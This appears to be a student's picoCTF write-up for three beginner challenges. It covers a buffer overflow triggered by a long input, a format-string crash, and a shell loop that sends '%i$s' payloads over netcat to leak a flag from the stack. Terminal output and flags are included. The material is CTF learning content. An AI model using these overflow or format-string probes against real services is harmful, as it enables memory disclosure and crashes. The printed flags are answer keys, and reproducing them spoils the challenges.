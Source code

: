 ## Buffer overflow 0

This was a really simple challenge which only required me to find a way to smash the stack, ergo, buffer overflow. The program given in the challenge would basically print out the flag if there was a segmentation fault which would happen if we spammed the input with any character

<br/>
Used the server connection : nc saturn.picoctf.net 57100
```
srinidhia@srinidhis-mbp ~ % nc saturn.picoctf.net 57100
Input: OOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOOO
OOOOOOOOOOOOOOOOOOOOOOOOOOO
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```
The flag : picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}

****

## Format String 0

I used the same principle as before
```
srinidhia@srinidhis-mbp ~ % nc mimas.picoctf.net 51547
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: ggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggggg
gggggggggggggggggggggggggggggggggggggggggggg
There is no such burger yet!

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}
```

The flag : picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}

****

## Flag leak

```
srinidhia@srinidhis-mbp ~ % for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 49843; done
```
The above line written basically is to print the string value(%s) from the address which we get from the index(i.e;i). We're then piping the server connection.

Output :
```
Tell me a story and then I'll tell you one >> Here's a story -
%0$s
Tell me a story and then I'll tell you one >> Here's a story -
%1$s
Tell me a story and then I'll tell you one >> Here's a story -
a2�
Tell me a story and then I'll tell you one >> Here's a story -
�ú,
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -
/
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -
�.
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
�������
Tell me a story and then I'll tell you one >> Here's a story -
�(��gM,�gM,�gM,�gM,�gM,�gM,�gM,�hM,�
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -
setresgid
Tell me a story and then I'll tell you one >> Here's a story -
��,�
Tell me a story and then I'll tell you one >> Here's a story -
��e�

Tell me a story and then I'll tell you one >> Here's a story -
setresgid
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
CTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}
Tell me a story and then I'll tell you one >> Here's a story -
�Z��
Tell me a story and then I'll tell you one >> Here's a story -
ii
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
(null)
Tell me a story and then I'll tell you one >> Here's a story -
ii
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
$�
Tell me a story and then I'll tell you one >> Here's a story -

Tell me a story and then I'll tell you one >> Here's a story -
�(��g���g���g���g���g���g���g���h���
Tell me a story and then I'll tell you one >> Here's a story -
����������؉ǀ�u��^H�C�p��s��u��C
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
Tell me a story and then I'll tell you one >> Here's a story -
^C%
```
Amidst this, I got a significant part of the flag and after a while I just exited the long loop.
<br/>
<br/>

CTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}

<br/>
The flag : picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}
